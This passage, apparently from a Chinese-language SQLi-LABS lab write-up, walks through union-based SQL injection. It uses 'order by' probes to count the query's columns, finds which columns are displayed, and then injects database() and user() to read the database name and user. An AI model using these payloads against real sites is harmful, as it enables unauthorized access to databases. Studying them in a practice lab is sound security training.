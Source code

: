 ```sql
# 错误
?id=1' order by 8 --+ 
# 错误
?id=1' order by 4 --+ 
# 正确
?id=1' order by 2 --+ 
# 正确
?id=1' order by 3 --+ 
```

+ 最终发现该查询有三个字段名，假设SQL语句为：

```sql
select id, name, password from users where id = '$id' limit 0, 1;
```

+ 使用`union select`语句尝试这三个字段名，是否在页面显示。

```sql
?id=' union select 1,2,3 --+
```

+ 发现只显示了2和3，1并没有显示出来。

![image-20210922212755277](../../images/SQLi-LABS/image-20210922212755277.png)

+ 接下来尝试在2和3这里进行注入。

```sql
# 在2的位置获取当前数据库名。
# 在3的位置获取当前数据库用户名。
?id=' union select 1, database(), user() --+
```
